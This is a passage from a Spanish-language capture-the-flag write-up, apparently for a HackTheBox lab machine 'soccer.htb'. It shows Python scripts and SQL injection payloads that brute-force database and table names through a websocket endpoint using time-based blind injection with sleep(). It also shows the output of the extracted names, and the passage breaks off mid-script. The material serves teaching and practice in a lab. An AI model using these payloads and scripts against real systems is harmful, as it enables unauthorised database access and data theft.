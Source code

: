 ```python
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("databases: ")
    time.sleep(2)
    for position in range(1,100):
        for letter in letters:
            let = letter
            payload = f"or if(substr((select group_concat(schema_name) from information_schema.schemata),{position},1)=\'{letter}\',sleep(2),1)"
            request = "{\"id\":\"1 "+payload+"\"}"
            p1.status(request)
            response = peticion(request)
            if response:
                break
```

Esperado un tiempo, obtenemos las siguientes bases de datos:

```bash
python3 tables.py
[∧] databases: : mysql,information_schema,performance_schema,sys,soccer_db
```

* mysql
* information_schema
* performance_schema
* sys
* soccer_db

Las 4 primeras suelen ser bases de datos por defecto de MySQL, por lo que no son relevantes. Por lo tanto, nos centraremos en ***soccer_db***.

### Tablas de la base de datos *soccer_db*

Para listar las **tablas** de *soccer_db*, utilizaremos el siguiente payload:

```python
"{"id":"1 or if(substr((select group_concat(table_name) from information_schema.tables where table_schema='soccer_db'),{position},1)=\'{letter}\',sleep(2),1)}"
```

El ***script*** es el siguiente:

```python
import asyncio
import websockets
import signal,sys,string,time
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

#Ctrl+C 
signal.signal(signal.SIGINT,def_handler)

#Variables globales
letters = string.ascii_lowercase + string.punctuation
burp = {'http':'http://127.0.0.1:8080'}
tables = ""
let = ""

async def send_request(request):
    async with websockets.connect('ws://soc-player.soccer.htb:9091/') as websocket:
        await websocket.send(request)
        inicio = time.time()
        response = await websocket.recv()
```